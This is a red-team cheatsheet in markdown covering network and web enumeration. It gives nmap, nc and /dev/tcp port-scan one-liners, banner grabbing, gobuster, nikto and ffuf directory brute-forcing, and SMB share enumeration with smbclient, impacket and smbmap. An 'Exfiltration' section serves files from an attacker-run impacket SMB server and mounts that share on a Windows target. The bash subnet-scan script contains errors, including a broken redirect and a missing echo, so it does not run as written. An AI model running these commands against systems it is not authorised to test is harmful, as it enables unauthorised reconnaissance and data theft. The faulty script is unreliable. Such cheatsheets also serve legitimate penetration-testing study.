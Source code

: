 ## Redteamer's cheatsheet

### Enumeration 

#### Nmap - initial one, a full one and an UDP one, all of them in parallel
nmap -sV -O --top-ports 50 --open -oA nmap/initial <ip or cidr>

nmap -sC -sV -O --open -p- -oA nmap/full <ip or cidr>

nmap -sU -p- -oA nmap/udp <ip or cidr>

##### To specifiy the script & port
nmap --scripts vuln,safe,discovery -p 443,80 <ip or cidr>
##### Servers that could be not ping ?then add the flag -Pn
nmap -Pn --top-ports 50 --open -oA nmap/initial <ip or cidr>

##### Without Nmap 
###### nc + bash
If you get in a machine that doesn’t has nmap installed, you can do a basic discovery of (for example), top 20 ports open in 192.168.30 by doing:
~~~
top10=(20 21 22 23 25 80 110 139 443 445 3389); for i in "${top10[@]}"; do nc -w 1 192.168.30.253 $i && echo "Port $i is open" || echo "Port $i is closed or filtered"; done 
~~~

/dev/tcp/ip/port or /dev/udp/ip/port
Alternatively, is possible to do the same than above but by using the special dev files /dev/tcp/ip/port or /dev/udp/ip/port (for example nc is not found):
~~~
top10=(20 21 22 23 25 80 110 139 443 445 3389); for i in "${top10[@]}"; do (echo > /dev/tcp/192.168.30.253/"$i") > /dev/null 2>&1 && echo "Port $i is open" || echo "Port $i is closed"; done
~~~
Taking these last examples, is straightforward to create a dummy script for scan a hole /24 net (for example):

```
#!/bin/bash
subnet="192.168.30"
top10=(20 21 22 23 25 80 110 139 443 445 3389)
for host in range {1..255}; do
    for port in "${top10[@]}"; do
        (echo > /dev/tcp/"${subnet}.${host}/${port}") > /dev/null 2>& && echo "Host ${subnet}.${host} has ${port} open" || "Host ${subnet}.${host} has ${port} closed"
    done
done
```
##### Banner grabbing (without nmap)
If nmap didn’t grab banners (or is not installed), you can do it with /dev/tcp/ip/port /dev/udp/ip/port or by using telnet.
~~~
/dev/tcp/ip/port or /dev/udp/ip/port
cat < /dev/tcp/192.168.30.253/22
SSH-2.0-OpenSSH_6.2p2 Debian-6
^C pressed here
~~~
For doing it with udp ports is the same, but changing tcp for udp

###### telnet
~~~
telnet 192.168.30.253 22
SSH-2.0-OpenSSH_6.2p2 Debian-6
^C pressed here
~~~

###### Web directorie/file scanner
###### Gobuster
Scan all the directories/files by extension:
~~~
gobuster dir -u http://192.168.24.24 -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -x php,txt,py -o webscan/gobuster-extensions
~~~
For scanning without extensions, just take out the -x

###### Nikto
Sometimes Nikto shows juicy information, I tend to run it like:
~~~
nikto -Format txt -o webscan/nikto-initial -host http://192.168.24.24 -p 8080
~~~

###### fuff
Web fuzzer, you can get fuff here, it basically bruteforces the dirs.
~~~
ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -u http://192.168.24.24/FUZZ
~~~

##### Samba 
###### smbclient
Check if there is anonymous login enabled:
~~~
smbclient -L 192.168.24.24
~~~
###### impacket
Is also possible to use impacket in the same way than smbclient to check for anonymous login (and a lot more as browse the shares) in case of incompatible versions.
~~~
/usr/share/doc/python3-impacket/examples/smbclient.py ""@192.168.24.24
~~~
###### smbmap
Check which permissions we have in those shares (if there are):
~~~
smbmap -H 192.168.24.24
Or having an user:
smbmap -u ceso -H 192.168.24.24
~~~

###### Version (nmap didn’t detect it)
Sometimes nmap doesn’t show the version of Samba in the remote host, if this happens, a good way to know which version the remote host is running, is to capture traffic with wireshark against the remote host on 445/139 and in parallel run an smbclient -L, do a follow tcp stream and with this we might see which version the server is running.

![image](https://user-images.githubusercontent.com/37288034/80310413-a2be9d00-8800-11ea-82b8-21dc0e059a1e.png)

##### Exfiltration
###### Samba
Generate a samba server with Impacket:

impacket-smbserver tools /home/kali/tools
Mount in Windows
Mounting it in Windows with Powershell:
~~~
New-PSDrive -Name "tools" -PSProvider "Filesystem" -Root "\\192.168.42.42\tools"
~~~

###### Mounting it without Powershell:
~~~
net use z: \\192.168.42.42\tools"
~~~
On windows, to list mounted shares, either Powershell or without it:
~~~
Powershell: Get-SMBShare
Without Powershell: net share
~~~

Mount in Linux
Is needed to have installed cifs-utils, to install it (in debian based):
~~~
sudo apt-get install cifs-utils
~~~
